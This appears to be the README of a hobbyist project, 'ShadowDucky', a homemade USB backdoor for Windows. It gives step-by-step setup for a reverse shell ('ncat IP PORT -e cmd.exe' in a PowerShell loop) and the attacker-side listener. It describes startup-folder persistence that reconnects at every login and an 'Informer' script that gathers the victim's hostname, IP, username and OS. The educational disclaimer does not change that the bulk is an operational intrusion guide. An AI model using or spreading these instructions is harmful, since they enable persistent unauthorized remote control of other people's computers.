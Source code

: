 # ShadowDucky-USB
This is a home made "Rubber Ducky". it gives the user a reverse shell and can grab information

------------WELCOME TO SHADOW DUCKY... -------------------------------------------------TRY AND READ THE HIDDEN MESSAGE...-----------------------------

INFO: This is a USB remote back door. This program "ShadowDucky" will run when
"ShadowDuckyV2.vsb" is double clicked. Some of the files will have to be edited
in notepad to suit it best for it's application. Please follow the listed instructions
below to help you properly run "ShadowDucky". 

This was created as a project to learn Powershell functionality, scripting with different
coding languages, and reverse shelling. This is a reverse shell for Windows to Windows.

NOTE: Required rescourses will be Powershell, Nmap, Windows.

ShadowDucky: Uses a combination of VBScript, ".bat" cmd and powershell functionality.
This program once ran will move the RubberDucky.bat into the "Intel" file and the 
"ShadowDucky.vsb" to the Startup folder to activate each time the computer starts
up and is logged into. It will continuesly ping the host computer until a connection
is made, after the host disconnects it will resume pinging until theres a new connection.
Each time the target computer is on it will allow for a reverse shell from a remote device at anypoint in time 
(as long as target device is on).

NOTE: ShadowDucky runs in the background for better use.

-------------------------------------------------------------INSTRUCTIONS-----------------------------------------------------------------------------

1st: You will need to install "nmap" on both your computer and target device in order to use ShadowDucky.
Nmap: https://nmap.org/download

2nd: You will need to place the IP of your host device into "RubberDucky.bat"
     you place IP of host and PORT being used into that function.

EX: powershell -command do {ncat FF.FF.FF.FF PORT -e cmd.exe} until ($ping) 
EX: powershell -command do {ncat 00.00.00.00 0000 -e cmd.exe} until ($ping)


3th: After settings are changed, plug ShadowDucky usb into target device
     and double click ShadowDuckyV2.vbs and watch the show.
	 return to Host device and use powershell and use the following command 
	 to connect the target device.
	 
EX: ncat -l -p PORT -v
EX: ncat -l -p 0000 -v
    make sure the port is the same number as the port set up in "RubberDucky.bat"	 

4th:ENJOY @-[:]

HIDDEN MESSAGE: sx& vqz& rlj& bulf& gost& kztg& djqp& gou& hzggtum& olt& huazj& ljf& sw& lnbulfv& sj& oubu& plndsja& lbqzjf&.& &Solfqp& qb& jqg& vqz& rljg& tuu& wu

ADVISEMENT & DISCLAIMER: This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s). 
+---------+
| Shadow  |
|   Drums |
|  TM     |
+---------+
-----------------------------------------------------------------------------

--------------WELCOME TO SHADOW DUCKY INFORMER-------------------------------------------

NOTICE: USE INFORMER BEFOR SHADOWDUCKY TO GET INFO TO SET UP SHADOWDUCKY FOR USAGE

ShadowDucky Informer helps with getting the information you need in order to edit and 
use ShadowDucky. "This Informer" will give the user a print out in the ShadowDucky USB,
Intel-Report Folder. The current computers name, IPv4, User Name, and OS will be printed
out into Intel-Report.txt

--------------------------------------INSTRUCTIONS---------------------------------------

Double click Informer.vbs and wait a minute for your report to be given.
After one minute check the Intel-Report Folder and use the information
in the ".txt" to set up ShadowDucky.

TO SET UP SHADOWDUCKY:

Read the "README.txt" in the README Folder

-----------------------------------------------------------------------------------------

          DISCLAIMER:   This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s).
------------
|  Shadow  |
|    Drums |
|   TM     |
------------
